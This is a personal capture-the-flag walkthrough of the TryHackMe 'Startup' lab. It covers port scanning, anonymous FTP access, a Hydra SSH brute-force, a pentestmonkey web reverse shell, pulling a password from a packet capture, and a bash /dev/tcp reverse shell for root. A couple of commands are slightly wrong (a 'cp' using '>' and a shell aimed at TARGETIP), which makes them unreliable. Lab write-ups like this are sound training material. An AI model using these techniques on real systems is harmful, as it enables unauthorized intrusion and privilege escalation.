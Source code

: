 ## Startup

### Difficulty
Easy

### Skills gained

### Link
https://tryhackme.com/room/startup

### Writeup

• As usual, the first thing I ran was a basic nmap scan which revealed 3 ports open

    nmap -T4 -p- TARGETIP

<1--- INSERT NMAP SCAN 1 --->

• I then ran a more in-depth nmap scan to discover more about these open ports

    nmap -T4 -A -p21,22,80 TARGETIP

<!--- INSERT NMAP SCAN 2 --->

• I also ran a dirb scan to see if we could find any hidden directories
    dirb http://TARGETIP wordlist.txt

<!--- INSERT DIRB SCAN --->

• This scan found a files directory

• The initial landing page stated that the site was in development. No extra information could be gained from looking at the source code

<!--- INSERT IMAGE OF LANDING PAGE --->

• There us a 'contact us' button on this page, which looks like it is meant to contain an email address however it does not

• The files page showed a few files, which indicated a possible vulnerability

• As the earlier scans indicated that there was an FTP server which was vulnerable to anonymous login, I decided to try this route. 
    
    ftp TARGETIP
    
• I used the username 'anonymous' and the password 'ftp@' which successfully logged me in.

• There were 2 files on the FTP server, which I was able to download. These files were the same as the ones shown on the files page as well as having a hidden file on .test.log

<!--- INSERT IMAGE OF THE FILES AVAILABLE --->

• notice.txt was a note to stop leaving amongus files on the server. It didn't give a lot of information away, but it did let us know that someone called Maya works at the company. The other two files did not show anything

• As the nmap scan also showed that ssh was available on the target, I decided to use Hydra to try and brute force using the username maya

    hydra -l maya -P wordlist.txt ssh://TARGETIP

• Whilst Hydra was running I decided to try and upload a reverse shell on the ftp server

• Logging into the ftp server, I couldn't upload a file to the initial directory, however I could to once I changed to the ftp directory, so I uploaded the reverse shell by pentestmonkey

• I set up a listener, then went to the files page and clicked on the reverse shell, which gave me a shell and the first ingredient!

<!--- IMAGE OF SHELL ON PAGE --->

• I then had to try and escalate my privileges, to do this I looked around the files until I found one called 'suspicious.pcapng'

• I copied this file to the ftp server, then downloaded it onto my machine

    cp suspicious.pcapng > /var/www/html/files/ftp

• I analysed it through wireshark, which allowed me to find out that someone else had used a reverse shell to get into the target machine


<!--- INSERT WIRESHARK IMAGE --->

• I exported the data as plaintext, then searched for the word 'password' which gave me Lennie's password

<!--- INSERT PLAINTEXT IMAGE --->

• I used SSH to get into Lennie's account, and was able to get the flag from 'user.txt'

• My last step was to find a way to gain root access. To do this I had a look around the scripts folder in Lennie's directory

• The scripts folder had a script called planner.sh, which Lennie did not have privileges to edit, however looking at the code it referred to /etc/print.sh

<!--- INSERT IMAGE OF PLANNER.SH --->

• I had a look at print.sh, which Lennie could edit, and changed it to a reverse shell which I got from revshells.com

    exec 5<>/dev/tcp/TARGETIP/PORT;cat <&5 | while read line; do $line 2>&5 >&5; done

• This gave me root access, and allowed me to get the last flag from root.txt
    


